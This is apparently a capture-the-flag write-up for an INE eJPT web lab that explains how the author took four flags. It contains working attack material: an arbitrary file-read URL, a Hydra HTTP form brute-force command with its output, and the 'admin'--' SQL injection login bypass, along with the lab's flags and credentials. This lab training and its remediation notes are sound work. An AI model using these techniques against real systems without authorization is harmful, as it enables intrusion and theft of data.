










# Web Application Penetration Testing CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Web Application Penetration Testing  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-20  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to identify and exploit common web application vulnerabilities hosted on `target.ine.local` across four distinct assessment phases:

- **Flag 1:** Identify an arbitrary file inclusion / path traversal flaw in the `/view_file` endpoint to retrieve `/flag.txt` from the server's root filesystem.
- **Flag 2:** Perform web content enumeration with Dirb to uncover an exposed `/secured/` endpoint returning directory contents as JSON, and retrieve `flag.txt` directly.
- **Flag 3:** Inspect the `/login` authentication mechanism and execute an HTTP POST form dictionary attack using Hydra to discover valid credentials (`guest:butterfly1`), logging in to access the user profile and extract Flag 3.
- **Flag 4:** Exploit an SQL injection vulnerability in the login form by injecting `admin'--` into the username field to bypass password validation, access the `admin` profile (`/profile/1`), and capture the final flag.



---

## 🛠️ Tools Used

- **Dirb (`v2.22`)** — Web content dictionary-based directory scanner
- **Hydra (`v9.5`)** — Network login cracker for HTTP POST form authentication
- **cURL** — Command-line HTTP tool for inspecting HTTP response headers and JSON data
- **Firefox Web Browser** — Manual web inspection, parameter manipulation, and SQL injection testing
- **SecLists & Common Wordlists** — `top-usernames-shortlist.txt`, `100-common-passwords.txt`, and `common.txt`

---

## 🌐 Target Information

| Hostname | URL | Web Server / Framework | Technology Stack | Identified Vulnerabilities |
|---|---|---|---|---|
| **target.ine.local** | `http://target.ine.local` | Gunicorn (Python WSGI) | Python (Flask / Jinja2), SQLite backend, HTML5/CSS3 | Local File Inclusion / Arbitrary File Read, Sensitive Directory Listing, Weak Password / Credential Stuffing, SQL Injection Authentication Bypass |

---

## 🔍 1. Flag 1: Local File Inclusion / Path Traversal

### Step 1.1: Analyzing the File Viewer Functionality
On the home page (`http://target.ine.local/`), the application features a **File Viewer** widget providing a dropdown to view selected files (e.g., `file1.txt`).



Submitting the form directs the browser to:
```
http://target.ine.local/view_file?file=file1.txt
```

The application accepts a filename through the `file` GET parameter and reads the requested file from disk.

### Step 1.2: Exploiting Path Traversal (Flag 1)
The lab objective specifies: *"Check the root ('/') directory for a file named 'flag.txt' that might hold the key to the first flag."*

We test whether the application restricts input to a specific subfolder or allows absolute filesystem paths:

```
http://target.ine.local/view_file?file=/flag.txt
```

The application parses `/flag.txt` without sanitization or path restriction and renders the flag contents directly within the container:

```
FLAG1_b2ec0cbd0a044292bc0670dfe8cb1207
```



✅ **Flag 1 Captured:** `FLAG1_b2ec0cbd0a044292bc0670dfe8cb1207`

---

## 📂 2. Flag 2: Directory Enumeration & Exposed `/secured/` Endpoint

### Step 2.1: Web Directory Scanning with Dirb
We perform directory brute-forcing against `http://target.ine.local/` using Dirb:

```bash
dirb http://target.ine.local/
```

**Dirb Output:**
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov 20 11:42:19 2026
URL_BASE: http://target.ine.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://target.ine.local/ ----
+ http://target.ine.local/about (CODE:200|SIZE:2858)                                                                                                                                      
+ http://target.ine.local/login (CODE:200|SIZE:3377)                                                                                                                                      
+ http://target.ine.local/logout (CODE:302|SIZE:189)                                                                                                                                      
+ http://target.ine.local/secured (CODE:308|SIZE:251)                                                                                                                                     
                                                                                                                                                                                          
-----------------
END_TIME: Fri Nov 20 11:42:23 2026
DOWNLOADED: 4612 - FOUND: 4
```



Dirb identifies `/about`, `/login`, `/logout`, and `/secured` (permanent redirect to `/secured/`).

### Step 2.2: Probing the `/secured/` Directory
We query `/secured/` using `curl` to examine the server response:

```bash
curl -i http://target.ine.local/secured/
```

**Response:**
```http
HTTP/1.1 200 OK
Server: gunicorn
Date: Fri, 20 Nov 2026 06:15:53 GMT
Connection: close
Content-Type: application/json
Content-Length: 13

["flag.txt"]
```



The endpoint responds with a JSON array listing files contained within the secured directory: `["flag.txt"]`.

### Step 2.3: Accessing `flag.txt` & Capturing Flag 2
We navigate directly to `http://target.ine.local/secured/flag.txt` in the browser:

```
FLAG2_920d3478d4554046807b0d10618663d6
```



✅ **Flag 2 Captured:** `FLAG2_920d3478d4554046807b0d10618663d6`

---

## 🔑 3. Flag 3: Login Brute-Force & User Profile Access

### Step 3.1: Analyzing the Login Form
We inspect the HTML source of `/login`:

```html
<form action="/login" method="post">
    <h2>Log In</h2>
    <label for="username">Username:</label>
    <input type="text" id="username" name="username" required>
    <label for="password">Password:</label>
    <input type="password" id="password" name="password" required>
    <input type="submit" value="Log In">
</form>
```

Testing invalid credentials via `curl`:
```bash
curl -i -X POST http://target.ine.local/login -d "username=test&password=test"
```

The application returns a `200 OK` response containing:
```html
<p class="error-message">Invalid username or password</p>
```

### Step 3.2: HTTP POST Form Attack with Hydra
We run Hydra targeting the `/login` endpoint using standard SecLists usernames and a 100-common passwords list, specifying the failure pattern (`F=Invalid username or password`):

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /root/Desktop/wordlists/100-common-passwords.txt \
      target.ine.local http-post-form \
      "/login:username=^USER^&password=^PASS^:F=Invalid username or password"
```

**Hydra Output:**
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-20 11:51:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1700 login tries (l:17/p:100), ~107 tries per task
[DATA] attacking http-post-form://target.ine.local:80/login:username=^USER^&password=^PASS^:F=Invalid username or password
[80][http-post-form] host: target.ine.local   login: guest   password: butterfly1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-20 11:52:00
```



Valid credentials found: **`guest:butterfly1`**.

### Step 3.3: Authenticating & Retrieving Flag 3
We log in as `guest` with password `butterfly1` in Firefox. Upon authentication, we are redirected to `/profile/2?name=Bob+Guest`:

```
User Profile
Username: guest
Name: Bob Guest
Mobile: 9876543810
Address: 456 Adam St, NY
Secret String: FLAG3_18cc67a445ad43b4aa8016802cd98f0e
```



✅ **Flag 3 Captured:** `FLAG3_18cc67a445ad43b4aa8016802cd98f0e`

---

## 💉 4. Flag 4: SQL Injection Authentication Bypass (Admin Account)

### Step 4.1: Analyzing the Vulnerability
The challenge description states: *"The login form behaves oddly with unexpected inputs. Think of injection techniques to access the 'admin' account and find the flag."*

Web authentication queries often construct SQL queries dynamically using string concatenation:
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

When input is not parameterized, injecting a single quote (`'`) breaks out of the string literal, and the SQL comment delimiter (`--`) truncates the remaining syntax (including the password check).

### Step 4.2: Exploiting SQLi on `/login`
We return to `/login` and submit the following payload in the **Username** field:

```
admin'--
```

We leave the **Password** field empty or enter an arbitrary string, and click **Log In**.



### Step 4.3: Retrieving Flag 4 from the Admin Profile
The backend database evaluates:
```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = '...';
```

The query authenticates successfully as user `admin` without verifying any password. The application redirects to `/profile/1?name=Admin+Account`:

```
User Profile
Username: admin
Name: Admin Account
Mobile: 8876743810
Address: 56 Admin St, NY
Secret String: FLAG4_a3bb40b9b9d7496ebbeb0533c85e3490
```



✅ **Flag 4 Captured:** `FLAG4_a3bb40b9b9d7496ebbeb0533c85e3490`

---

## 🏁 5. Flags Summary

| Flag # | Objective Description | Vulnerable Endpoint | Attack Technique / Vector | Flag Token / Value |
|---|---|---|---|---|
| **Flag 1** | Check root directory for `flag.txt` using file viewer | `/view_file?file=/flag.txt` | Path Traversal / Arbitrary File Read | `FLAG1_b2ec0cbd0a044292bc0670dfe8cb1207` |
| **Flag 2** | Explore server directories and uncover hidden treasures | `/secured/flag.txt` | Directory Enumeration (Dirb) & Direct Object Access | `FLAG2_920d3478d4554046807b0d10618663d6` |
| **Flag 3** | Brute-force weak login form to reveal user profile flag | `/login` | HTTP POST Form Dictionary Attack (`guest:butterfly1`) | `FLAG3_18cc67a445ad43b4aa8016802cd98f0e` |
| **Flag 4** | Use injection techniques to access the 'admin' account | `/login` | SQL Injection Authentication Bypass (`admin'--`) | `FLAG4_a3bb40b9b9d7496ebbeb0533c85e3490` |

---

## 🧠 Key Learnings & Takeaways

1. **Path Traversal & Arbitrary File Read Remediation:** Allowing user-supplied filenames directly in filesystem lookup calls (`open()`, `read()`) allows attackers to read arbitrary system files. Applications must validate filenames against an allowlist, strip directory traversal characters (`../`, `/`), or resolve canonical paths using `os.path.abspath()` while verifying they remain within an approved base directory.
2. **Preventing Information Leakage in API Endpoints:** Internal directories or administrative file paths should never expose automatic directory listings or return JSON directory representations without strict session-based access control.
3. **Defense Against Credential Stuffing / Brute-Force Attacks:** Authentication endpoints must implement account lockout policies, exponential delays, CAPTCHA mechanisms, and IP-based rate limiting to thwart automated credential brute-force attacks via tools like Hydra.
4. **Parameterized Queries Against SQL Injection:** SQL injection remains one of the most critical web vulnerabilities. Developers must never concatenate user input into SQL queries. Using parameterized prepared statements (e.g., SQLite `cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))`) ensures user input is always treated as literal data, completely neutralizing SQL syntax manipulation.
